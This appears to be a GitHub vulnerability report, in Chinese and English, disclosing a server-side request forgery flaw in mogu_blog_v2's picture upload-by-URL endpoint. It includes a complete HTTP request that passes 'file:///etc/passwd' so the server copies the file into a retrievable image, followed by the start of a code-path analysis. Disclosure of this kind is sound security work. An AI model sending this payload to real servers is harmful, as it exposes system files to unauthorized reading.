# mogu_blog_v2-FileRestApi#uploadPicsByUrl has a SSRF vulnerability
> issues:https://github.com/moxi624/mogu_blog_v2/issues/97
## 1、复现详情（Reproduction details）

**构造BurpSuite请求报文，利用file协议读取文件/etc/passwd中的内容，写入到图片中：**
**Construct a BurpSuite request message, use the file protocol to read the contents of the /etc/passwd file, and write it into an image:**
```
POST /mogu-picture/file/uploadPicsByUrl HTTP/1.1
Host: you-ip:8602
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: bearer_eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pblVpZCI6IjFmMDFjZDFkMmY0NzQ3NDNiMjQxZDc0MDA4YjEyMzMzIiwicm9sZSI6Im51bGzotoXnuqfnrqHnkIYiLCJjcmVhdGVUaW1lIjoxNjgwMTU2NjY4NTExLCJzdWIiOiJhZG1pbiIsImlzcyI6Im1vZ3VibG9nIiwiYXVkIjoiMDk4ZjZiY2Q0NjIxZDM3M2NhZGU0ZTgzMjYyN2I0ZjYiLCJleHAiOjE2ODAxNjAyNjgsIm5iZiI6MTY4MDE1NjY2OH0.oXuQcn6Do52V7XkiPiH1Ug1XKOHNgKk4BTeksFgj8DI
Connection: close
Content-Type: application/json
Content-Length: 122

{
	"token":"asdf",
        "adminUid":"asdf",
        "sortName":"admin",
        "projectName":"blog",
        "urlList":[
                "file:///etc/passwd"]
}
```
<img width="415" alt="image" src="https://user-images.githubusercontent.com/129370953/228767407-97dbd606-f5df-4d9b-944e-c4b0385eb4cf.png">
访问图片地址：http://you-ip:8600/blog/admin/jpg/2023/3/30/1680160261977.jpg

Visit image address: http://your-ip:8600/blog/admin/jpg/2023/3/30/1680160261977.jpg
<img width="415" alt="image" src="https://user-images.githubusercontent.com/129370953/228767603-d1f5cacc-e6de-425a-9700-446f532751e1.png">

## 2、底层分析（Bottom-up analysis）
**入口点：**
**Entrance point：**
FileRestApi#uploadPicsByUrl
<img width="415" alt="image" src="https://user-images.githubusercontent.com/129370953/228768196-8be3c066-0dd7-48c5-829f-79b9afa4000c.png">

进入`uploadPictureByUrl()`方法：
传入的`fileV0`为springboot前端传入的参数自动装配，从`fileV0`中取出`urlList`
Enter the `uploadPictureByUrl()` method：
The incoming `fileV0` is the parameter automatically wired by the Spring Boot frontend. Extract `urlList` from `fileV0`
<img width="415" alt="image" src="https://user-images.githubusercontent.com/129370953/228768425-13cb827c-4e5b-44d9-8ae8-2f7ac33ef3af.png">
